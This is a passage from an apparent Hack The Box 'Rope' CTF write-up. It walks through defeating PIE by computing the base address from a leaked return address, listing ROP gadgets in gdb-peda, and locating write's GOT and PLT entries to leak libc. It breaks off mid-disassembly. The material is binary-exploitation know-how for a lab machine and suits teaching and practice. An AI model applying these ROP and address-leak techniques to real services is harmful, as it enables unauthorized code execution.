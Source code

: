               Start Addr           End Addr       Size     Offset objfile
          0x55d9d3d0c000     0x55d9d3d0d000     0x1000        0x0 /media/sf_CTFs/hackthebox/rope-10.10.10.148/contact
          0x55d9d3d0d000     0x55d9d3d0e000     0x1000     0x1000 /media/sf_CTFs/hackthebox/rope-10.10.10.148/contact
          0x55d9d3d0e000     0x55d9d3d0f000     0x1000     0x2000 ...[snip]...
    

I can see here that the return address is 0x000055d9d3d0d562, and base address
is 0x55d9d3d0c000, so the offset is 0x1562. And because that offset is always
the same, and the base address will always end in 0x00, I can know that the
least significant byte is always 0x62 (which is what I used above).

So now I can calculate for any run that the base address will be the leaked
address minus 0x1562.

#### Get Gadgets

I’ll need gadgets that allow me to set `rdi`, `rsi`, and `rdx`, as well as the
GOT address for `write` to leak, and the `PLT` address for `write` to call.
I’ll get gadgets by typing `rop` at the `gdb-peda$ ` prompt:

    
    
    gdb-peda$ rop                                                     
    Gadgets information                                                                            
    ============================================================                                                 
    0x00000000000011d3 : add byte ptr [rax], 0 ; add byte ptr [rax], al ; ret
    0x00000000000011d4 : add byte ptr [rax], al ; add byte ptr [rax], al ; ret
    ...[snip]...
    0x000000000000124f : pop rbp ; ret
    0x000000000000164b : pop rdi ; ret   <-- rdi
    0x0000000000001265 : pop rdx ; ret   <-- rdx
    0x0000000000001649 : pop rsi ; pop r15 ; ret   <-- rsi (if I don't mind stomping r15)
    0x0000000000001645 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
    0x0000000000001016 : ret
    0x0000000000001072 : ret 0x2f
    ...[snip]...
    

I can grab the offsets to the three I need, and add the base address to get
their address.

#### write GOT and PLT

The GOT address will hold the address of `write` in libc as it’s loaded.
That’s what I want to leak. The PLT is the table of code that contains the
stubs to call the dynamic linker. So the first time a function is called, the
GOT jump right back to the PLT which calls the linker. The linker updates the
GOT so the next time it’s called, it goes right to the function in libc. The
PLT address will be constant relative to the program base. Since I already
leaked that, I will be able to call this. I just need to know the offset. In
this case, I can see it by disassembling some of the code:

    
    
    gdb-peda$ x/10i 0x55d9d3d0d546
       0x55d9d3d0d546:      lea    esi,[rip+0x2b94]        # 0x55d9d3d100e0
       0x55d9d3d0d54c:      mov    edi,eax
       0x55d9d3d0d54e:      call   0x55d9d3d0d050 <write@plt>
       0x55d9d3d0d553:      mov    eax,DWORD PTR [rbp-0x14]
       0x55d9d3d0d556:      mov    edi,eax
       0x55d9d3d0d558:      mov    eax,0x0
       0x55d9d3d0d55d:      call   0x55d9d3d0d59a
    => 0x55d9d3d0d562:      mov    eax,DWORD PTR [rbp-0x14]
       0x55d9d3d0d565:      mov    ecx,0x0
       0x55d9d3d0d56a:      mov    edx,0x6
    gdb-peda$ disassemble 0x55d9d3d0d050
    Dump of assembler code for function write@plt: